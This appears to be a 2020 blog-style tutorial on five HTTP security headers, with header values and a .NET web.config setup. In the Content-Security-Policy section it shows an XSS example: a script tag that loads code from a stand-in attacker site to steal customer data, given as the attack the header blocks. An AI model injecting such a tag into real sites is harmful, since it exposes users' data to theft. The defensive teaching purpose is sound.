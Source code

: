 # Top-5 HTTP Security Headers in 2020

Nowadays, security is important as never before. I've prepared a very small article about the Top-5 security headers in 2020 that will help your site keep your users in safety. Have a nice reading!

## Content-Security-Policy

One of the most important security header. It was created to prevent the usage of any resource from an untrusted source.

Let's go to the short example first:

Evil Bob found [XSS](https://en.wikipedia.org/wiki/Cross-site_scripting) vulnerability on Alice's site. He decides to inject the script into the web-page to steal some customer data. He put this script tag into her page

```html
<script src="https://my-evilt-site.org/very-evil-script.js"></script>
```

and waits for the results

Luckily, Alice knows about CSP header and already added it to the response : ```Content-Security-Policy: default-src 'self'```. Now, a browser already knows, that scripts (and images, and fonts, and styles) not from origin domains are forbidden to use and Bob's attack fails.

Withing this header you can deny inline scripts and eval usage (goodby inline XSS), specify a checksum for the scripts (good by substitution of the 3rd party scripts), allow specific domains for your images, fonts, and styles. It can restrict fetch requests, deny usage of your site inside an iframe (goodby [CSRF](https://en.wikipedia.org/wiki/Cross-site_request_forgery)) and much more. CSP header is very flexible and can support almost all of your needs.

### Can I use?

CSP header [supported](https://caniuse.com/#feat=mdn-http_headers_csp_content-security-policy) by almost all browsers including IE (but with a special name - X-Content-Security-Policy). Some of the directives may not be supported across different browsers but this will not ruin the header.

### Code Example

* Allow all remote resources from your domain: ```Content-Security-Policy: default-src 'self'```. No external API calls allowed!
* Allow all remote resource from your domain and external api calls: ```Content-Security-Policy: default-src 'self'; connect-src 'self' https://randomuser.me```. IFramin is allowed.
* Allow all remote resource from your domain, external api calls, disallow iframing your site: ```Content-Security-Policy: default-src 'self'; connect-src 'self' https://randomuser.me; frame-ancestors 'none';``` Not so strict as I wish.
* Disallow everything except whitelisted: ```Content-Security-Policy: default-src 'none'; img-src 'self'; font-src 'self'; connect-src 'self' https://randomuser.me; script-src 'self'; style-src 'self'; frame-ancestors 'none'``` Much better now but without [critical css](https://developer.mozilla.org/en-US/docs/Web/Performance/Critical_rendering_path)
* Disallow everything except whitelisted (with inline css): ```Content-Security-Policy: default-src 'none'; img-src 'self'; font-src 'self'; connect-src 'self' https://randomuser.me; script-src 'self'; style-src 'self' 'unsafe-inline'; frame-ancestors 'none'```

Examples are simplified just to give you a better understanding of the CSP header power. For additional info check the [mdn page](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) and the [CSP Cheat Sheet](https://scotthelme.co.uk/csp-cheat-sheet/) is also very useful.

**Important Notice**: If you need to deny the possibility to iframe your site in IE - you should use [X-Frame-Options](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options)


## X-Content-Type-Options

This is a bit tricky header but it works very well with CSP, so it worth mentioning.

Imagine, that Evil Bob found XSS on Alice's site and tries to put some malicious script inside. But Alice already has setup CSP policy, so his attempt to download javascript from untrusted resources fails. But Evil Bob is smart. He changes the type of the injected script to "text/plain". Now, CSP protection will allow loading script, because it is not javascript anymore and should not be executed. But sometimes, browsers try to be too smart. They may check the content of the loading "text", and decide to execute it as JavaScript. This named sniffing and this behavior varies depending on the browser.

This header tells the browser,  strictly follow provided Mime/Type, and don't try to guess.

### Can I use?

[Supported](https://caniuse.com/#feat=mdn-http_headers_x-content-type-options) by all browsers except Safari.

### Code Example

Only one option is possible: ```X-Content-Type-Options: nosniff```

## Feature-Policy

This header is designed to turn off features that you don't expect to be used.

Alice has a nice and shiny site with a big audience. Evil Bob found XSS and decided to use Alice's site for spying using a user's web camera. So he injects malicious code and waits for the dozen of the new videos.

But, fortunately, Alice already set Feature-Policy header to ```Feature-Policy: camera 'none'```

Now, browsers know, that using a camera is not permitted for anyone, and Bob's attempt fails. Of course, you can turn off not only a camera but also autoplay (useful when you are showing some ads from 3rd party vendors), microphone and very much more. If you don't want to turn it off for all, you can allow to use it only for code from your domain.


### Can I use?

Partially [supported](https://caniuse.com/#feat=feature-policy) by most of the browsers and not supported by the IE.

### Code Example

Disabling geolocation:  ```Feature-Policy: geolocation 'none'```
Disabling sensetive features:  ```Feature-Policy: camera 'none'; microphone 'none'; geolocation 'none'; autoplay 'none'; display-capture 'none'; payment 'none'```

## Strict-Transport-Security

This is a very simple header for those who use HTTPS. It tells the browser to use only HTTPS connection, even if the user is trying to use HTTP.

Let's imaging that Alice is sitting in a public place and use public WiFi. Evil Bob is sitting not very far from her and trying to sniff all non-encrypted traffic. Alice decides to visit some online-shop and uses an old and good link like www://my-example-shop.com. Evil Bob sees her request (it's not encrypted) and starts recording Alice's activity hoping to get credit card information. But, after the first request, the shop returns STS header: ```Strict-Transport-Security: max-age=31536000```. And browsers automatically redirects Alice to the HTTPS version of the page. From now, Evil Bob sees only encrypted traffic and can't steal anything.

## Can I use?

[Supported](https://caniuse.com/#feat=stricttransportsecurity) by all browsers except Opera Mini. And Yes, IE also supports this header.

### Code Example

```Strict-Transport-Security: max-age=31536000; includeSubDomains```

## Referrer-Policy

Controls how much of the referer information (host, query params, etc) are sent within the request.

Short example:

Alice has a forum about cats with lots of links to other resources. When a user clicks on the link, he is navigated to another web page, and this web page can gather some information about the source of the navigation. You value the privacy of your users and want to keep this information secret. You set Referer-Policy header and deny browser to send referer information for all except your self.

### Can I use?

Mostly [Supported](https://caniuse.com/#feat=referrer-policy) with all (IE - partially) browsers except Opera Mini

### Code Example

Showing referer info only for the origin: ```Referrer-Policy: same-origin```

## Summary:

As far as I use .NET, here is the result setup for web.config: (note, unsafe js inline is not supported):

```xml
<customHeaders>
    <add name="Content-Security-Policy" value="default-src 'none'; img-src 'self'; font-src 'self'; connect-src 'self' https://my-example-api.ua; script-src 'self'; style-src 'self' 'unsafe-inline'; frame-ancestors 'none'" />
    <add name="Feature-Policy" value="camera 'none'; microphone 'none'; geolocation 'none'; autoplay 'none'; display-capture 'none'; payment 'none'" />
    <add name="X-Content-Type-Options" value="nosniff"/>
    <add name="Referrer-Policy" value="same-origin"/>
    <add name="Strict-Transport-Security" value="max-age=31536000"/>
</customHeaders>
```

## Usefull links:

* [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy)
* [CSP Cheat Sheet](https://scotthelme.co.uk/csp-cheat-sheet/)
* [Feature-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Feature_Policy)
* [Using Feature-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Feature_Policy/Using_Feature_Policy)
* [X-Content-Type-Options](https://developer.mozilla.org/en-US/docs/Web/HTTP/headers/X-Content-Type-Options)
* [Referrer-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy)
* [Strict-Transport-Security](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Strict-Transport-Security)


Bonus: web.config with all set headers can be found [here]()

**Stay safe and don't forget to remove x-powered header! :)**